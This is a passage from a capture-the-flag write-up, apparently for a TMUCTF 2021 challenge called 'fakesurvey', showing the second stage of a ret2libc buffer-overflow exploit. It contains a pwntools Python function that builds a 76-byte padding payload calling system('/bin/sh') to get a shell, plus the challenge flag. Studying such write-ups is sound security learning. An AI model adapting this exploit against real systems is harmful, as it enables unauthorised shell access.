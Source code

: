 
Now we can calculate address to <span style="color:red">`system`</span> and <span style="color:red">`binsh`</span> and this time we are going to call <span style="color:red">`system("/bin/sh")`</span>

```
Exploit = [padding][puts.plt][main][puts.got]
Exploit2 = [padding][system][put_anythin_here_as_ret_address][binsh]
```

```python
def get_shell(libc_base):
    system = libc_base + libc.symbols['system']
    binsh = libc_base + next(libc.search(b"/bin/sh"))

    payload = b"A"*76
    payload += p32(system)
    payload += b"CCCC"
    payload += p32(binsh)
    p.recv()
    p.sendline(passphrase)
    p.recv()
    p.recv()
    p.send(payload)
    p.interactive()
```

<img src="/assets/img/tmu/fakesurvey_sol.png">

flag is <span style="color:red">`TMUCTF{m4yb3_y0u_u53d_7h3_574ck_4nd_r37urn3d_70_dl_r350lv3`</span>

>You can download the challenges and exploits files <a href="https://github.com/kirimoe/tmuctf2021">from here</a>
